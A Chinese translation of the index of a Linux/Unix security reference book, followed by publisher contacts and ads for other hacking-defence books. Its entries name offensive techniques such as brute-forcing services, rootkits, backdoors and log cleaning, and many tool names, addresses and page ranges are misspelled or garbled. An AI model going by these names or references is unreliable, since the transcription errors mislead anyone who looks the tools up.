  - 通过其枚举用户，40–41
  - 为用于 Sendmail 而关闭，137
- 暴露。另见 防止暴露

## F

- Fata-Jack 无线黑客工具，使用，173–174
- 文件权限
  - 为重要文件分配，147–149
  - 风险分区，149–150
  - 为重要文件确保权限，RC 30-RC 32
  - /dev 中的文件，149
  - bin 和 sys 拥有的文件，146
  - 实施 wheel 组，150
  - setuid 和 setgid 文件，150
  - Sudo，151
  - 教程，144–145
  - umask 值，146–147
  - 全局可读文件，145
  - 全局可写文件，146
- FIN 扫描，使用 Nmap 执行，27
- find 命令
  - 用其检查 sys 拥有的文件，146
  - 用其搜索全局可读文件，145
  - 用其搜索全局可写文件，146
- TCP 端口 79 上的 Finger 程序，使用，42–43
- 指纹识别，使用，32–34
- 足迹分析，解释，4
- FTP 账户，暴力破解，64, 68–69
- FTP 认证，嗅探，64–65
- FTP 反弹攻击，出现情况，65
- FTP 反弹扫描，使用 Nmap 执行，26
- TCP 端口 21 上的 FTP（文件传输协议）
  - 与连接窃取相关，66
  - 从 inetd 禁用，134
  - 使用，37–38
  - 漏洞，63
- FTP 端口，通过 telnet 客户端连接，37
- FTP 服务器横幅
  - 更改，38
  - 获取，37

## G

- GNU Privacy Guard，网址，73
- 组成员身份和不正确的文件权限，利用，112–114
- 组拥有的文件，查找，112–113

## H

- 黑客工具，网址，RC 15–RC 17
- 句柄
  - 通过域名注册商记录查询，11
  - 通过 RIR 记录查询，13–14
- 隐藏 HTML 元素，漏洞，84
- 隐藏
  - 与后门相关，122–123
  - 与将本地账户 uid 更改为 0 相关，123–124
  - 与清理日志相关，120–122
  - 与 .rhosts 文件相关，124
  - 由 root 拥有且 setuid/setgid shell 由 root 拥有的情况，123
- 劫持 telnet 会话，出现情况，69–70
- host 命令，用其执行区域传输，16–18
- 主机配置，审计和加固，61
- 主机加固
  - Apache（HTTP 和 HTTPS），139–140
  - BIND（DNS），138–139
  - 检查 /etc/hosts.equiv 的内容，133
  - 检查 .rhosts 文件，133
  - 禁用栈执行，133
  - inetd 和 xinetd 配置，134–135
  - NFS（网络文件系统），141
  - 远程服务的加固，135
  - 移除或禁用不必要的账户，132
  - Samba，140–141
  - Sendmail，136–138
  - 设置密码策略，132
  - SSH（安全外壳协议）TCP 端口 22，136
  - 使用 TCP Wrappers，133–134
  - wu-FTPD，135–136
- hosts，ping 测试，23
- Http2，与 Zaurus PDA 一起使用，181
- HTTP 认证
  - 暴力破解，77
  - 嗅探，80
- HTTP 代码，表格，RC 28–RC 29
- HTTP 数据，嗅探，78–79
- TCP 端口 80 上的 HTTP（超文本传输协议）
  - 加固，139–140
  - 与 HTTPS 的区别，80
  - 与会话劫持相关，83–84
  - 使用，43–45
  - 漏洞，77, 92–94
- HTTP 请求，使用 unsnarf 程序嗅探，77–78
- HTTP 服务器横幅，获取和更改，43–45
- HTTP 服务器
  - 使用 openssl 连接，93
  - 配置错误，81
- HTTP 流量，使用 Web 代理处理，102–103
- TCP 端口 443 上的 HTTPS（安全超文本传输协议）
  - 加固，139–140
  - 与 HTTP 的区别，80
  - 使用，51–52
- HTTPS 服务器横幅，获取和更改，52
- HTTPS 流量，使用 Web 代理处理，102–103
- Hydra 暴力破解工具，网址，58

## I

- ICMP 回显请求，在 ping 扫描过程中阻止，24
- ident（标识协议）服务器，扫描，28
- 防止 IMAP 暴力破解，92
- IMAP 服务器横幅，获取和更改，49–50
- IMAP 流量，嗅探，92
- TCP 端口 143 上的 IMAP2/IMAP4（互联网消息访问协议 2/4）
  - 暴力破解，92
  - 使用，49–50
  - 漏洞，92
- TCP 端口 993 上的 IMAPS（安全互联网消息访问协议）
  - 使用，52–53
  - 使用 SSL，94–95
- IMAPS 服务器横幅，获取和更改，53
- IMAPS 服务器，使用 openssl 工具，95
- httpd.conf 中的 Indexingme 指令，使用，139
- inetd
  - 用作远程 shell，122–123
  - 与 xinetd 加固相关，134–135
- 输入验证漏洞，利用和防止，82–83, 116
- 远程服务的入侵战术，概述，58–62
- IP 地址。另见 CIDR（无类别域间路由）地址
  - 类别，RC 9–RC 11
  - 点分十进制表示法，RC 9
  - 长度，RC 9
  - 与回环范围相关，RC 12
  - 通过 RIR 记录查询，13
  - 使用的子网掩码，RC 11
- 为私网保留的 IP 块，列表，RC 12
- IP（互联网协议）头部，格式，RC 12–RC 13
- IP 协议扫描，使用 Nmap 执行，30


# J

- 职位发布，寻找管理弱点，4
- John the Ripper，用于破解 /etc/shadow 文件，109–110

# K

- 内核缺陷，软件漏洞，115–116
- 可键盘操作的 VNC 查看器，在 Zaurus PDA 上使用的示例，183
- Kismet 无线黑客工具，使用方法，173, 178
- Knark 根套件，下载，127
- KSA（密钥调度算法），结合 Ainsmort 使用，171

# L

- LACNIC（拉丁美洲和加勒比海互联网地址注册机构），网络地址，12
- Linux 发行版
    - a：在 RC 2-RC 6 中使用的命令
    - b：在其中定位日志文件，154
    - c：获取补丁程序，155
    - d：Linux 文件权限，以数值形式表示，144
    - e：Linux 服务，在其中使用的端口，RC 7-RC 8
    - f：本地信任，利用，112
- 日志文件
    - 在 Unix 和 Linux 中定位，154
    - 搜索，5–6
    - /var/admin/loginlog，155
    - /var/admin/sulog，155
    - /var/audit，154–155
    - 在 var 目录中，121
    - /var/log/cron，155
    - /var/log/maillog 文件，155
    - /var/log/messages，156
    - /var/log/secure，156
    - /var/log/wtmp，156
    - /var/run/utmp，156
- 日志轮转，启用，156–157
- 日志记录，启用，121, 154–157
- 日志记录机制，禁用和清理，120–122
- Loki2 工具，用于安装后门，125–126
- 回环接口 (127.0.0.1)，无限制流量，112
- 回环范围，在 IP 寻址中的作用，RC 12
- LRK（Linux RootKit），下载，127
- 带有 -1 标志的 ls，用于检查文件权限，144

# M

- MAC 地址过滤，利用，175
- mailsnarf 程序，用于嗅探 SMTP 流量，72
- 中间人攻击
    - a：动态特性，60–61
    - b：针对 SSH（安全外壳协议）的攻击，68
- missquizzle.php 脚本，示例，96
- MTR（Matt 的 traceroute），在 Zaurus PDA 上使用的示例，185
- 域名中的 MX（邮件交换）记录，查询方法，15–16
- TCP 端口 3306 上的 MySQL
    - a：阻断和加固，97
    - b：使用示例，52–54
- MySQL 流量，嗅探，96–97
- MySQL 版本信息，枚举，54–55

# N

- NASL（Nessus 攻击脚本语言）
    - a：特性，162
    - b：编写 Nessus 插件，162–167
- NASL 脚本，从命令行运行，162
- Nessus 插件，使用 NASL 编写，162–167
- Nessus 安全扫描器
    - a：下载，162
    - b：使用示例，104–105
- Netcat
    - a：获取远程 shell，106–107
    - b：执行自动化的横幅抓取，54–56
- Netcat 命令，列表，RC 20-RC 21
- Netskat，用于加固远程服务，135
- 网络块，通过 RIR 记录进行查询，13
- NFS 和 BGP 数据包缓冲区漏洞，133
- NFS（网络文件系统），加固，141
- NFS 共享，查询远程主机，87–88
- Nmap 扫描工具
    - 结合 ACK 扫描，30
    - 特性，22
    - 结合 FIN 扫描，27
    - 结合 FTP 回弹扫描，26
    - 结合 IP 协议扫描，30
    - 结合 NULL 扫描，29
    - 结合操作系统指纹识别，34
    - 结合 ping 扫掠，23
    - 结合反向 ident 扫描，28
    - 结合 RPC（远程过程调用）扫描，29–30
    - 结合源端口扫描，27
    - 结合 SYN 扫描，26
    - 结合 TCP-connect 端口扫描，25
    - 结合 TCP ping，24
    - 结合 UDP 端口扫描，31
    - 在 Zaurus PDA 上使用的示例，179
    - 结合窗口扫描，31
    - 结合 XMAS 扫描，28
- NNT 认证数据，嗅探，89
- TCP 端口 119 上的 NNTP（网络新闻传输协议）
    - 暴力破解，89
    - 通过 SSH 隧道传输，89
    - 使用示例，47–48
- NNTP 服务器横幅，获取和更改，47–48
- NNTPS 横幅，获取和更改，52
- TCP 端口 563 上的 NNTPS（安全网络新闻传输协议）
    - 使用示例，52
    - 结合 openssl 使用，94
- 非标准端口，识别在其上运行的远程服务，63. 另见 TCP 端口，UDP 端口
- password 工具，下载，59, 110
- NULL 扫描，使用 Nmap 执行，29

# O

- 全向天线，用于无线活动，171
- OpenSSH，在 Zaurus PDA 上使用的示例，180–181
- openssl 工具
    - 连接 HTTPS 服务器，93
    - 结合 IMAPS 服务器使用，95
    - 结合 NNTPS 使用，94
    - 结合 POP3S 使用，95
- 操作系统，使用 Xprobe2 进行指纹识别，32–34

# P

- 密码策略，为主机加固设置，132
- 补丁，为 Linux 和 Unix 获取，155
- PATH 环境变量，利用其植入特洛伊木马，114–115
    - 从中移除 “.”，132
- Zaurus PDA 的 Perl 支持，下载，185
- PGP/4me 长消息行缓冲区溢出，漏洞，104
- PGP/Nuke 新闻应用，漏洞，82–83
- ping 命令，示例，23
- Ping 扫掠，使用 Nmap 执行，23
- Ping 测试，通过它确定存活主机状态，23. 另见 TCP ping
- TCP 端口 109 上的 POP2（邮局协议 2），暴力破解和嗅探，85
- POP2 流量，嗅探，85
- POP3 密码，嗅探，86–87
- TCP 端口 110 上的 POP3（邮局协议 3）
    - 暴力破解，86
    - 使用示例，45
- POP3S 服务器横幅，更改，45
- TCP 端口 995 上的 POP3S（安全邮局协议 3）
    - 使用示例，53
    - 结合 SSL 使用，95
- POP3S 服务器横幅，获取和更改，53
- PORT 命令，在回弹攻击中的作用，65
- 端口重定向，技术，107–109
- 端口扫描
    - 防御措施，31–32
    - 反向 ident，28
    - TCP 连接，25
    - TCP SYN / 半开，26–27
    - 使用示例，25
- TCP 端口 111 上的 Portmaper
    - 禁用，47
    - 错误配置，87
    - 查询 RPC 服务，46–47
    - 使用示例，45–47
- 端口。另见非标准端口，TCP 端口，UDP 端口
- Linux 和 Unix 服务使用的端口，表格，RC 7–RC 8

#### 索引

- 井号 (#)，用于从 inet 中禁用 FTP，134
- 防止暴露
    - 应用程序漏洞，104
    - 回弹攻击，65
    - 暴力破解攻击，59
    - DNS 反向查找，15
    - 域名注册商记录导致的暴露，11
    - 端口扫描导致的暴露，31–32
    - RIR 记录导致的暴露，14
    - traceroute 请求导致的暴露，19
    - 区域传输导致的暴露，18
    - FTP 暴力破解，64
    - Imap 暴力破解，92
    - 中间人攻击，61
    - 搜索引擎，8
    - 软件漏洞，61
    - SSH 暴力破解，67–68
- 权限提升
    - 解释，112
    - 组成员资格和错误的文件权限，112–114
    - 错误配置，118
- ProFTPd，网络地址，67
- 受保护数据源，搜索，7
- ptace 漏洞利用，发生情况，115–116

# Q

- Qopenmagpie，在 Zaurus PDA 上使用的示例，179–180

# R

- r（读）权限，示例，144–145
- 远程服务漏洞
    - 阻断和停止不必要的服务，63
    - 回弹攻击，65
    - POP3 暴力破解，86
    - 连接窃取，66–67
    - DNS（域名系统）TCP/UDP 端口 53，74
    - 邮件加密，73
    - TCP 端口 21 上的 FTP（文件传输协议），63
    - 隐藏的 HTML 元素，84
    - 获取源代码、配置统计信息和密码资源，81
    - TCP 端口 111 上的 Portmapper，87
    - 查询 NFS 共享，87–88
    - 识别在非标准端口上运行的服务，63
    - TCP 端口 137 至 139 上的 Samba，90–91
    - 会话劫持，83–84
    - TCP 端口 25 上的 SMTP（简单邮件传输协议），72
    - 嗅探 FTP 认证，64–65
    - 嗅探 POP3 流量，85–86
    - 源代码注释，84–85
    - TCP 端口 22 上的 SSH（安全外壳协议），67–68
    - telnet，68–72
    - UDP 端口 69 上的 TFTP（简单文件传输协议），75–76
    - 结合安全协议的使用，65
    - TCP 端口 5800+ 和 5900+ 上的 VNC（虚拟网络计算），97–100
- 远程服务
    - 阻断和停止，37
    - 枚举，36–34
    - 加固，135
    - 使用 Amap 进行识别，36
    - 入侵战术，58–62
- 远程 shell
    - 防止服务安装，123
    - 安装用于后门，122–123
    - 获取，105–107
    - 防止攻击者获取，107
- 反向 ident 扫描，使用 Nmap 执行，28
- 反向代理攻击，发生情况，103
- TCP 端口 512 上的 rxec 命令，在远程主机上使用，93

- RFC（请求评论标准）
    - 768（UDP 头部），RC 14
    - 791（IP 头部），RC 12
    - 793（TCP 头部），RC 13
- .hosts 文件
    - 使用 SSH 进行审计，124
    - 检查，133
    - 利用，124
- .hosts 错误配置，发生情况，93–94
- RIPE NCC（欧洲互联网地址注册机构），网络地址，12
- RIR 记录
    - 防止由此导致的暴露，14
    - 通过公司前缀查询，12
    - 通过电子邮件查询，14


## **194 HackNotes Linux 和 Unix 安全便携参考**

-   按句柄查询，13–14
-   按 IP 地址或网络块查询，13
-   RIR（地区互联网注册机构），使用，12
-   在远程主机上使用 TCP 端口 513 上的 rlogin 命令，93–94
-   root 访问权限，通过滥用 .rhosts 文件确保，124
-   /root 文件，为其分配适当的权限，148
-   root 权限
    -   获取，123–124
    -   结合 Sudo 免费软件使用，151
-   root  shell，访问，122–123
-   rootkits
    -   检测，127
    -   使用，126–127
-   RPC（远程过程调用）扫描，使用 Nmap 执行，29–30
-   RPC 服务
    -   查询 Portmapper，46–47
    -   软件漏洞，88–89
-   在远程机器上使用 TCP 端口 514 上的 rsh 命令，94
-   RSTP 数据包，在 FIN 扫描中的作用，27
-   rsnp 实用程序，其漏洞，116

### S

-   TCP 端口 137 至 139 上的 Samba
    -   暴力破解，90
    -   加固，140–141
    -   配置错误，91
    -   使用，48–49
    -   漏洞，90–91
-   获取 Samba 密码哈希值，90
-   枚举 Samba 服务器信息，48
-   Samba 服务器，更改版本号码字符串，位于信息中，49
-   Samba 流量，阻断和隧道，91
-   Samba，检测修改的二进制文件，127
-   /sbin 文件，为其分配适当的权限，148
-   搜索引擎
    -   防御其漏洞，8
    -   使用，4
-   搜索
    -   查找配置文件中的敏感信息，7
    -   EDGAR，4
    -   查找招聘启事中的管理弱点，4
    -   日志文件信息，5–6
    -   受保护的数据资源，7
    -   查找 Usenet 存档中的管理缺陷，7–8
    -   Web 服务器统计信息，6–7
-   安全协议，使用，65
-   安全会议，网址，RC 19
-   安全邮件列表，网址，RC 19
-   安全新闻，网络资源，RC 18
-   安全资源，网址，RC 15
-   Sendmail
    -   加固，136–138
    -   漏洞，73
-   sendmail MIA 文件，关于攻击者对其进行修改，138
-   会话劫持，易受攻击，83–84
-   查找 setgid 和 setuid 文件，150
-   添加 setuid 权限，144
-   属于 root 的 setuid/setgid shell，利用，123
-   Sharp Zaurus PDA（个人数字助理）。参见 Zaurus PDA（个人数字助理）
-   shell 历史，在 cleo 日志中的作用，120–121
-   shells，获取，105–107
-   Showmount 程序，通过它查询远程主机以获取 NFS 共享，87–88
-   SMB（服务器消息块），在 Samba 中的作用，90
-   Smbmount，在 Zaurus PDA 上使用，183
-   smrsh MDA（邮件传递代理），在加固 Sendmail 时启用，137
-   SMTP 服务器横幅，抓取和更改，40
-   TCP 端口 25 上的 SMTP（简单邮件传输协议）
    -   嗅探流量，72
    -   使用，39–41
-   嗅探 SMTP 流量，72
-   嗅探反制措施，60
-   嗅探，动态，59–60
-   UDP 端口 161–162 上的 SNMP（简单网络管理协议）
    -   枚举及防止枚举，50–51
-   软件漏洞
    -   BIND（伯克利互联网名称域）的漏洞，75
    -   核心转储，117–118
    -   针对利用的防御措施，61
    -   示例，61
    -   内核缺陷，115–116
    -   本地缓冲区溢出，116
    -   RPC_ssl 的漏洞，93
    -   Sendmail 的漏洞，73
    -   符号链接，117
    -   telnet 的漏洞，71–72
    -   针对盗窃攻击，66
    -   VNC（虚拟网络计算）的漏洞，99–100
-   Solaris FTP 核心转储影子文件恢复漏洞，发生情况，117–118
-   源代码注释，漏洞，84–85
-   端口扫描，使用 Nmap 执行，27
-   TCP 端口 22 上的 SSH（安全外壳）
    -   其中的 authorized_keys，125
    -   暴力破解，67–68
    -   加固，136
    -   通过它阻止 root 登录，125
    -   与 rlogin 对比，94
    -   与 telnet 对比，70–72
    -   通过它隧道 NTP，89
    -   通过它隧道 POP2 流量，85
    -   安全地通过它隧道 VNC 流量，99–100
    -   使用，38
    -   结合 .rhosts 文件使用，124
-   获取 SSH 服务器横幅，38
-   通过 authorized_keys 访问 SSH 服务器，125
-   更改 SSH 版本信息，38
-   sshtim 工具，结合 SSH 使用，68
-   SSL（安全套接字层）
    -   结合 NTP 使用，94
    -   结合 POP3 使用，95
-   栈执行，在主机加固中禁用，133
-   在 Web 服务器上搜索统计信息，6–7
-   强密码
    -   好处，59
    -   确保，110
-   su 命令，用它登录用户账户，155
-   IP 地址中的子网掩码，示例，RC 11
-   Sudo 免费软件，以其作为手段执行 root 权限命令，151
-   符号链接，漏洞，117
-   SYN 扫描，使用 Nmap 执行，26
-   sys 和 bin，由其拥有的文件，146
-   系统审计和日志记录，启用，121

### T

-   tail 命令，用它检查执行的命令，120–121
-   TCP connect 端口扫描，过程，25
-   TCP 劫持，发生情况，69
-   TCP ping 扫描，防止，24
-   使用 Nmap 执行 TCP ping，24
    -   另见 ping
-   TCP 端口号，范围，25
-   TCP 端口。另见 非标准端口；UDP 端口
    -   21 (FTP)，37–38，63
    -   22 (SSH)，37–38，67
    -   23 (telnet)，38–39，68
    -   25 (SMTP)，39–41，72
    -   53 (DNS)，41–42，74
    -   79 (finger)，42–43
    -   80 (HTTP)，43–45，77
    -   109 (POP2)，85
    -   110 (POP3)，45，86
    -   111 (Portmapper)，45–47，87
    -   119 (NNTP)，47–48，89
    -   137 至 139 (Samba)，48–49，90–91
    -   143 (IMAP2/IMAP3)，49–50
    -   512 (rexec 命令)，93
    -   513 (rlogin 命令)，93
    -   514 (rsh 命令)，94
    -   563 (NNTPS)，52，94
    -   993 (IMAPS)，52–53，94–95
    -   995 (POP3S)，53
    -   3306 (MySQL)，53–54
    -   5800+ 和 5900+ (VNC)，97–100
    -   6000–6063 (X 窗口系统)，100–102
    -   8000+ (Web 代理)，102–103
-   使用 TCP SYN/半开放端口扫描，26–27
-   TCP（传输控制协议）
    -   报头，格式，RC 13
-   TCP wrappers，用于主机加固，133–134
-   tcpdump 网络分析器
    -   其中的畸形 NPS 和 BGP 数据包缓冲区漏洞，103
    -   在 Zaurus PDA 上使用，183–184
-   嗅探 telnet 认证，70–71
-   连接到 FTP 端口的 telnet 客户端，37，38
-   TCP 端口 23 上的 telnet
    -   暴力破解，68-69
    -   使用，38-39
-   telnet 服务器横幅
    -   更改，39
    -   获取，39
-   telnet 会话，劫持，69-70
-   telnet 与 SSH（安全外壳）对比，70-72
-   嗅探 TFTP 数据，75-76
-   设置 TFTP 根目录，76
-   TFTP（普通文件传输协议）
    -   UDP 端口 69 上的漏洞，75-76
-   /tmp 文件，为其分配适当的权限，148
-   下载 Tornkit rootkit，122
-   防止接收 tracroute 请求，19
-   执行 traceroutes，18-19
-   Tripwire，检测修改的二进制文件，127
-   特洛伊木马
    -   示例，126-127
    -   在 `""` PATH 环境变量中植入，114-115
-   TTL（生存时间）值，在执行 traceroutes 中的作用，18-19

### U

-   UDP 报头，格式，RC 14
-   UDP 端口号，范围，25
-   使用 Nmap 执行 UDP 端口扫描，31
-   UDP 端口。*另见* 非标准端口；TCP 端口
    -   53 (DNS)，41-42，74
    -   69 (TFTP)，75-76
    -   137 至 139 (Samba)，48-49
    -   161-162 (SNMP)，50-51
-   uids，更改为 0，123-124
-   Unix 发行版
    -   其中使用的命令，RC 2-RC 6
    -   在其中定位日志文件，154
    -   获取补丁，155
-   Unix 文件权限，用数字形式表示，144
-   Unix 服务，其中使用的端口，RC 7-RC 8
-   umask 值，查找当前用户的，146-147
-   urlsnarf 程序，用它嗅探 URL，77-78
-   /usr 文件，为其分配适当的权限，148
-   /var/admin/loginlog 文件，内容，155
-   /var/adm/suolog 文件，内容，155
-   /var/audit 日志文件，内容，154-155
-   /var 目录注册表
    -   检查其中的可用空间，157
    -   清理，121-122
-   /var 文件，为其分配适当的权限，148-149
-   /var/log/cron 文件，内容，155
-   /var/log/maillog 文件，内容，155
-   /var/log/messages 文件，内容，156
-   /var/log/syslog 文件，内容，156
-   /var/log/wtmp 文件，内容，156
-   /var/run/utmp 文件，内容，156

### V

-   虚拟机，在上面测试利用，62
-   嗅探和破解 VNC 密码，98-99
-   VNC 服务器，在 Zaurus PDA 上使用，182
-   通过 SSH 安全地隧道 VNC 流量，99-100
-   VNC（虚拟网络计算）
    -   TCP 端口 5800+ 和 5900+ 上
        -   配置错误，99
        -   漏洞，97-100
-   vn crack 工具，网址，97
-   VRFP 命令
    -   通过它枚举用户，40-41
    -   在 Sendmail 中关闭使用，137
-   漏洞
    -   应用程序的漏洞，103-104
    -   Netscape/Mozilla POP3 邮件处理程序整数溢出，103-104
    -   搜索引擎的漏洞，4-8
    -   whois 查询的漏洞，9

### W

-   w（写入）权限，示例，144
-   Web 应用程序，漏洞，82-83，162
-   TCP 端口 8000+ 上的 Web 代理
    -   配置错误，102-103
    -   漏洞，102-103
-   安全新闻的 Web 资源，列表，RC 18
-   Web 服务器
    -   针对敏感文件进行配置，81-82


#### 索引

- 查找统计数据，6–7
- 源代码注释的漏洞，85
- 网站
    - Adore 根kit，127
    - Airsnort，171–172
    - Amap，36, 63
    - 用于无线活动的天线，171
    - Apache 对分块处理的漏洞，85
    - APNIC（亚太互联网络信息中心），12
    - ARIN（美国互联网号码注册机构），12
    - 运行于 chroot 环境中的 BIND，138
    - Bing，180
    - CDE Tooltalk 漏洞，117
    - Chkrootkit，127
    - 用于 Zaurus 的 dig 工具，185
    - DNSSEC（DNS 安全），74–75
    - DGAR，4
    - Etercap ARP 欺骗工具，60
    - /var/audit 文件的事件日志记录，155
    - Finger 漏洞，73
    - Gnu Privacy Guard，43
    - 黑客工具，RC 15–RC 17
    - Hping2，181
    - Hydra 暴力破解工具，58
    - John the Ripper，109–110
    - KeyPeeble VNC 查看器，183
    - Kismet，178
    - Kismet 无线黑客工具，173
    - Knark 根kit，127
    - LACNIC（拉丁美洲及加勒比海互联网地址注册机构），12
    - 本地缓冲区溢出，116
    - Loki2 工具，126
    - LRK（Linux Rootkit），127
    - SSH 上的中间人攻击，68
    - MySQL 加固，95, 97
    - NASL，参考手册，166
    - Nessus，105, 162
    - Netcat，54–56
    - Nmap 实用工具，22
    - nspasswd，39
    - npsaved 实用工具，110
    - OpenSSH，181
    - OpenSSL，93–94
    - Linux 和 Unix 的补丁，155
    - PHPNuke 漏洞，82
    - ProFTPd，67
    - Qpenmapfe，179–180
    - RFC 768（UDP 头部），RC 14
    - RFC 791（IP 头部），RC 12
    - RFC 793（TCP 头部），RC 13
    - RIPE NCC（欧洲互联网地址注册机构），12
    - RPC 软件漏洞，88
    - rw144 实用工具，116
    - Samba，127
    - 安全会议，RC 19
    - 安全邮件列表，RC 19 的网络地址
    - 安全资源，RC 15
    - Sendmail，73
    - 用于 Zaurus PDA 的 Shnubut 工具，183
    - 软件漏洞和缓冲区溢出，61
    - 使用 VNC 流量的 SSH，99
    - sudo，151
    - TCP Wrappers，133
    - tcpdump 和恶意 NFS 数据包，103
    - 用于 Zaurus PDA 的 tcpdump，184
    - Tomkit 根kit，127
    - Trippique，127
    - 用于管理快捷方式的 Libnet 归档，8
    - 虚拟机软件，62
    - VNC 服务器，182
    - vnccrack 工具，97
    - 无线天线，171
    - WU-FTPD，135
    - xkey 工具，102
    - Xprobe2，32–34
    - xremote 工具，102
    - xsac 程序，101
    - swatcwhtin 工具，101
    - zarp3 工具，121
    - Zaurus PDA，185
    - Zaurus 版本的 Nmap，179
    - Zebedee 命令行工具，107–109
    - 用于 Zaurus PDA 的 Zetherical，184
    - 用于 Zaurus PDA 的 zNessus，184–185
    - webyes 程序，其特性，78
    - Wellenleiter II，与 Zaurus PDA 配合使用，179
    - WEP（有线等效隐私）协议，概述，170–171
    - Wget，与 Zaurus PDA 配合使用，184
- 限定 wheel 组以限制对 setuid 程序的访问，150
- whois 查询，其漏洞，9
- 使用 Nmap 执行 wiflow 扫描，31
- 天线无线黑客行为的发生，171
- 无线黑客工具
    - Airsnort，172
    - Fata-Jack，173–174
    - Kismet，173
- 无线网络
    - 安全加固，174–175
    - 其漏洞，170
- 全球可读文件
    - 审计，145
    - 查找，114–115
- 查找全球可写文件，113–114, 146
- WU-FTPD
    - 加固，135–136
    - 其漏洞，66–67

### X

- xremote 工具，下载，102
- xscan 命令，与 X 服务器配合使用，101
- xterm，获取远程 shell，107
- xwatchlin 工具，下载，101

### Z

- zap3 工具，清理，121
- Zaurus PDA（个人数字助理）
    - 与 Bing 配合使用，180
    - 与 dig 工具配合使用，185
    - 特性，178
    - 与 Hping2 配合使用，181
    - 与 KeyPeeble VNC 查看器配合使用，183
    - 与 Kismet 配合使用，178
    - 与 MTR（Matt’s TraceRoute）配合使用，185
    - 与 Nmap 配合使用，179
    - 在线资源，185
    - 与 OpenSSH 配合使用，180–181
    - Perl，185
    - 与 Qpenmapfe 配合使用，179–180
    - 与 Smbmount 配合使用，183
    - 与 tcpdump 配合使用，183–184
    - 与 VNC 服务器配合使用，182
    - 与 Wellenreiter II 配合使用，179
    - 与 Wget 配合使用，184
    - 与 ZEtherel 配合使用，184
    - 与 zNessus 配合使用，184
- Zebede 命令行工具，执行 dog 重定向，107–109
- ZEEtherel，与 Zaurus PDA 配合使用，184
- zNessus，与 Zaurus PDA 配合使用，184–185
- 区域传输
    - 使用 host 命令执行，16–18
    - 防止滥用，18
    - 用途，16–18

### X

- x（执行）权限，示例，144
- X 服务器
    - 滥用其配置错误，100–102
    - 阻塞和隧道，102
- TCP 端口 6000–6063 上的 X 窗口系统，其漏洞，100–102
- inetd
    - inetd 加固，134–135
    - 用作远程 shell，122–123
- xkey 工具，下载，102
- XMAS 扫描，使用 Nmap 执行，28
- XOR 真值表，与 unmask 值配合使用，146–147
- Xprobe2，用于指纹识别操作系统，32–34

#### 国际联系信息

**澳大利亚**  
McGraw-Hill Book Company Australia Pty. Ltd.  
电话 +61-2-9900-1800  
传真 +61-2-9878-8881  
http://www.megraw-hill.com.au  
books-ll.sydney@megraw-hill.com

**加拿大**  
McGraw-Hill Ryerson Ltd.  
电话 +905-430-5000  
传真 +905-430-5020  
http://www.megraw-hill.ca

**希腊、中东及非洲（不含南非）**  
McGraw-Hill Hellas  
电话 +30-210-6560-990  
电话 +30-210-6560-993  
电话 +30-210-6560-994  
传真 +30-210-6545-525

**墨西哥（同时服务拉丁美洲）**  
McGraw-Hill Interamericana Editores S.A. de C.V.  
电话 +525-117-1583  
传真 +525-117-1589  
http://www.megraw-hill.com.mx  
fernando_castellanos@megraw-hill.com

**新加坡（服务亚洲）**  
McGraw-Hill Book Company  
电话 +65-6863-1580  
传真 +65-6862-3354  
http://www.megraw-hill.com.sg  
mghasia@megraw-hill.com

**南非**  
McGraw-Hill South Africa  
电话 +27-11-622-7512  
传真 +27-11-622-9045  
robyn.swanepoel@megraw-hill.com

**西班牙**  
McGraw-Hill/Interamericana de España, S.A.U.  
电话 +34-91-180-3000  
传真 +34-91-372-8513  
http://www.megraw-hill.es  
professional@megraw-hill.es

**英国、北欧、东欧及中欧**  
McGraw-Hill Education Europe  
电话 +44-1-628-502500  
传真 +44-1-628-702224  
http://www.megraw-hill.co.uk  
computing_europe@megraw-hill.com

**其他所有咨询请联系：**  
McGraw-Hill/Osborne  
电话 +1-510-420-7700  
传真 +1-510-420-7703  
http://www.osborne.com  
omg_international@megraw-hill.com

#### 一线安全

这些便利、便携的资源，包含了关于关键安全问题的简明信息，非常适合忙碌的 IT 专业人员。


HackNotes™  
Linux/Unix 安全  
便携参考  
作者：Nitish Dhunjani  
ISBN: 0-07-222786-9


HackNotes™  
Web 安全  
便携参考  
作者：Mike Shema  
ISBN: 0-07-22784-2


HackNotes™  
网络安全  
便携参考  
作者：Mike Horton  
& Clinton Moggie  
ISBN: 0-07-222783-4


HackNotes™  
Windows 安全  
便携参考  
作者：Michael O'Dea  
ISBN: 0-07-222785-0


#### 浏览 Osborne 的所有黑客书籍


**Hacking Exposed J2EE & Java**  
作者：A. TAYLOR, B. BUEGE, R. LAYMAN  
ISBN: 0-07-222565-3  
USD $49.99

- 解释如何对使用以下技术的應用程式应用有效的安全对策：
    - Servlets 和 Java Server Pages (JSPs)
    - Enterprise Java Beans (EJBs)
    - Web Services
    - Applets
    - Java Web Start
    - Remote Method Invocation (RMI)
    - Java Message Service (JMS)


**Hacking Exposed Web Applications**  
作者：J. SCAMBRAY, M. SHAPIRA  
ISBN: 0-07-222438-X  
USD $49.99

- 展示攻击者如何识别 Web 应用程序组件中的潜在弱点
- 了解存在于 Apache、IIS、Netscape Enterprise Server、J2EE、ASP.NET 等 Web 服务器平台中的严重漏洞



**Hacking Exposed Windows 2000**  
作者：S. MCCLOURE, J. SCAMBRAY  
ISBN: 0-07-219362-3  
USD $49.99

- 展示如何进行黑客攻击，同时也提供具体的解决方案来堵住 Windows 2000 网络中的安全漏洞


**Hacking Linux Exposed, Second Edition**  
作者：B. HATCH, J. LEE  
ISBN: 0-07-222564-5  
USD $49.99

- 获取关于 Linux 特定黑客攻击（内部和外部）的详细信息，以及如何阻止它们


